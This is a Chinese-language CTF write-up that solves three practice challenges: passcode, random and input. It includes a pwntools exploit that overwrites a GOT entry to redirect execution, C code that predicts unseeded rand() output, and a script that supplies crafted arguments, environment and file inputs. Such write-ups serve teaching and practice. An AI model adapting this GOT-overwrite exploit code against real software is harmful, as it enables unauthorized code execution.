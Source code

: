 该程序的安全机制为`No PIE`和`Partial RELRO`，加上写入的地址可控，很自然地想到向`fflush.got.plt`中，写入判断成功后的程序地址即可。exp脚本如下：

```python
from pwn import *

context.log_level = 'debug'

fflush_got = 0x0804A004
ok = 0x080485E3

p = process('/home/passcode/passcode')
#gdb.attach(p)
#p.recvuntil('name : ')
p.sendline('A'*0x60+p32(fflush_got))
p.recvuntil('!\n')
p.sendline(str(ok))
print p.recvline()
```

## random

此题目为常见的编程错误。`man 3 rand`可知如果没有使用`srand`函数设置`seed`，则使用1作为种子。运行时的种子相同，产生的伪随机数序列也就相同可预知了。预测随机数的代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	unsigned int random, key;
	random = rand();
	key = random ^ 0xdeadbeef;

	printf("Get random %d\n", random);
	printf("Get key %d\n", key);
	return 0;
}
```

## input

UNIX系统编程训练的题目。需要注意的是，其使用`char`来访问对应的参数，可使用`tubes.process.stderr`向标准错误[写入](https://github.com/Gallopsled/pwntools/blob/292b81af17/pwnlib/tubes/process.py#L971)。编程代码如下：

```python
from pwn import *

context.log_level = 'debug'

stage1 = ['C' for i in xrange(100)]
stage1[0] = './input'
stage1[ord('A')] = '\x00'
stage1[ord('B')] = '\x20\x0a\x0d'
stage1[ord('C')] = '62333'

stage3 = {'\xde\xad\xbe\xef': '\xca\xfe\xba\xbe'}

with open('\x0a', 'w') as stage4:
    stage4.write('\x00\x00\x00\x00')

p = process(stage1, env=stage3)
p.recvuntil('clear!\n')

p.send('\x00\x0a\x00\xff')
p.stderr.write('\x00\x0a\x02\xff')
```